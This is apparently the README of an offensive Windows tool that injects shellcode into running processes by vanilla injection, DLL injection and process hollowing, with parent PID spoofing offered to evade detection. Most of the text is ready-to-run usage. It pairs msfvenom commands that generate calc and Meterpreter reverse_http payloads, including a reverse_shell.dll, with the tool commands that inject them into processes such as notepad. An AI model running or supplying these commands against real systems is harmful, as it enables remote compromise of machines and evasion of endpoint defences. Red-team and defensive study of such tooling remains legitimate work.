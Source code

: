 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 3 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing

Vanila Process Injection and Process Hollowing.
Currently the tool accepts shellcode in 3 formats.

	1) base64
	2) hex
	3) C

Currently the tool support 1 evade technique.

	1) Parent PID Spoofing
	

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" | base64
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f hex
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\calc.dll" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:3
	
	Evade Technique

	Parent PID Spoofing with Process Hollowing.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:4

	Parent PID Spoofing with Vanila Process Injection.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:5

	Parent PID Spoofing with DLL Injection.
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > Desktop/reverse_shell.dll
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\reverse_shell.dll" /parentproc:explorer /t:6


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to Aaron Bray (https://github.com/ambray) for Process Hollowing code
